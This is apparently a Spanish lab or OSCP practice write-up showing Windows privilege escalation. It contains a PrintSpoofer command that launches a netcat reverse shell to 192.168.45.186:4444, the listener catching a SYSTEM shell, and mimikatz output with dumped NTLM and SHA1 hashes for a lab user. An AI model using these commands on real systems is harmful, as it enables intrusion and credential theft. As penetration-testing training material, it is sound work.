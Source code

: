 > Descargamos desde nuestro kali en la maquina victima PrintSpoofer64.exe y nc.exe y ejecutamos con un receptor nc activo.

* Ejecucion:

```powershell
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> .\PrintSpoofer.exe -c "C:\Users\eric.wallows\Documents\nc.exe 192.168.45.186 4444 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

* Receptor:

```bash
                                                                                                                                                                                                                  
┌──(root㉿kali)-[/home/…/Challenges/4_OSCP-A/dmz/141]
└─# nc -lvnp 4444                           
listening on [any] 4444 ...
connect to [192.168.45.186] from (UNKNOWN) [192.168.212.141] 63053
Microsoft Windows [Version 10.0.19044.2251]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

* Subimos y ejecutamos mimikatz:

```bash
mimikatz # sekurlsa::logonpasswords                                                                                                                                                                               
                                                                                                                                                                                                                  
Authentication Id : 0 ; 416925 (00000000:00065c9d)                                                                                                                                                                
Session           : Interactive from 1                                                                                                                                                                            
User Name         : celia.almeda
Domain            : OSCP
Logon Server      : DC01
Logon Time        : 2/12/2025 2:30:33 PM
SID               : S-1-5-21-2610934713-1581164095-2706428072-1105
        msv :
         [00000003] Primary
         * Username : celia.almeda
         * Domain   : OSCP
         * NTLM     : e728ecbadfb02f51ce8eed753f3ff3fd
         * SHA1     : 8cb61017910862af238631bf7aaae38df64998cd
         * DPAPI    : f3ad0317c20e905dd62889dd51e7c52f
        tspkg :
        wdigest :
         * Username : celia.almeda
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : celia.almeda
         * Domain   : OSCP.EXAM
         * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 123814 (00000000:0001e3a6)
Session           : Service from 0
```